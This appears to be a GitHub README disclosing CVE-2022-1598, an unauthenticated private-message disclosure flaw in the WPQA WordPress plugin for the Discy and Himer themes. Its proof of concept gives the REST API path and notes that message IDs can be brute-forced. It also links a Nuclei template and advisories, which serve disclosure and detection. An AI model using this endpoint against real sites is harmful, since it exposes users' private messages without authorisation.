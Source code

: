 # CVE-2022-1598
WPQA &lt; 5.5 - Unauthenticated Private Message Disclosure

# Description
The plugin which is a companion to the Discy and Himer themes, lacks authentication in a REST API endpoint, allowing unauthenticated users to discover private questions sent between users on the site.

## Affected Plugins:
[WPQA < 5.5](https://codecanyon.net/item/wpqa-builder-forms-addon-for-wordpress/25298161)

## Affected Themes:
[DISCY](https://2code.info/discy-social-questions-and-answers-wordpress-theme/)

[HIMER](https://2code.info/himer-social-questions-and-answers-wordpress-theme/)

# Proof of Concept

```
Visit /wp-json/wp/v2/asked-question

or /wp-json/wp/v2/asked-question/<iD> (where ID is numeric and can be bruteforced!) 
```

## Nuclei Template:
[CVE-2022-1598.yaml](CVE-2022-1598.yaml)

## VIDEO POC:
https://www.youtube.com/watch?v=MbhiQKWvivQ

### References:
https://wpscan.com/vulnerability/0416ae2f-5670-4080-a88d-3484bb19d8c8

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1598
